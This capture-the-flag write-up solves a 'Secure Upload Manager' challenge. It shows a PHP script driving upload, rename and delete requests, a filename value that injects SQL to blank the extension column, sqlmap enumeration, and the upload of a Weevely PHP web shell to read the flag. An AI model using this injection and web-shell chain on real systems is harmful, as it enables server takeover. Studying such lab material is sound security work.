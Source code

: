 # Secure Upload Manager

<img src="attachments/0.jpg" title="" alt="" width="584">

Try to upload file with semicolon in a file name.

![](attachments/1.jpg)

Try to rename it.

![](attachments/2.jpg)

SQL Error

![](attachments/3.jpg)

It can SQL injection with filename.

Write PHP payload to upload image , rename image and delete image.

```
<?php

$oldname = $_POST["oldname"];
$url = "http://34.142.233.148/upload.php";

// I guess the file is in the same directory as this script
$file = __DIR__.'\test.png'; 

$headers = [
    'Content-Type: multipart/form-data',
    'User-Agent: '.$_SERVER['HTTP_USER_AGENT'],
];

$fields = [
    'upfile' => new CURLFile($file, 'image/png', $oldname.'.png')
];

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
curl_setopt($ch, CURLOPT_POSTFIELDS, $fields);
$result0 = curl_exec($ch);

$ch2 = curl_init();
curl_setopt($ch2, CURLOPT_URL,            "http://34.142.233.148/rename.php" );
curl_setopt($ch2, CURLOPT_RETURNTRANSFER, 1 );
curl_setopt($ch2, CURLOPT_POST,           1 );
curl_setopt($ch2, CURLOPT_POSTFIELDS,     "oldname=".urlencode($oldname)."&newname=lmn" ); 
curl_setopt($ch2, CURLOPT_HTTPHEADER,     array('Content-Type: application/x-www-form-urlencoded')); 

$result = curl_exec($ch2);

echo $result;


$ch3 = curl_init();
curl_setopt($ch3, CURLOPT_URL,            "http://34.142.233.148/delete.php" );
curl_setopt($ch3, CURLOPT_RETURNTRANSFER, 1 );
curl_setopt($ch3, CURLOPT_POST,           1 );
curl_setopt($ch3, CURLOPT_POSTFIELDS,     "filename=lmn" ); 
curl_setopt($ch3, CURLOPT_HTTPHEADER,     array('Content-Type: application/x-www-form-urlencoded')); 
$result3 = curl_exec($ch3);
exit;
?>
```

Use SQL Map.

![](attachments/4.jpg)

Get DB Name.

![](attachments/5.jpg)

Get table name.

![](attachments/6.jpg)

Get column name.

![](attachments/7.jpg)

It has extension column.

The website rename the filename based on a data in database.

If I change extension column in database to "", you'll be able to rename a filetype.

I uploaded test3.jpg',extension='.jpg .

| filename               | extension |
| ---------------------- | --------- |
| test3.jpg',extension=' | jpg       |

I rename test3.jpg',extension=' (enter filename without extension in rename page) to aaa.jpg .

| filename | extension |
| -------- | --------- |
| aaa.jpg  |           |

After that, I created PHP Shell with Weevely.

![](attachments/8.jpg)

Rename it to aaa.jpg and upload it.

![](attachments/9.jpg)

| filename | extension |
| -------- | --------- |
| aaa.jpg  |           |
| aaa      | jpg       |

Rename it to aaa.php .

![](attachments/10.jpg)

| filename | extension |
| -------- | --------- |
| aaa.php  |           |
| aaa      | jpg       |

Locate to /upload/aaa.php and connect it with weevely.

![](attachments/11.jpg)

Type env and you'll see a flag.

![](attachments/12.jpg)
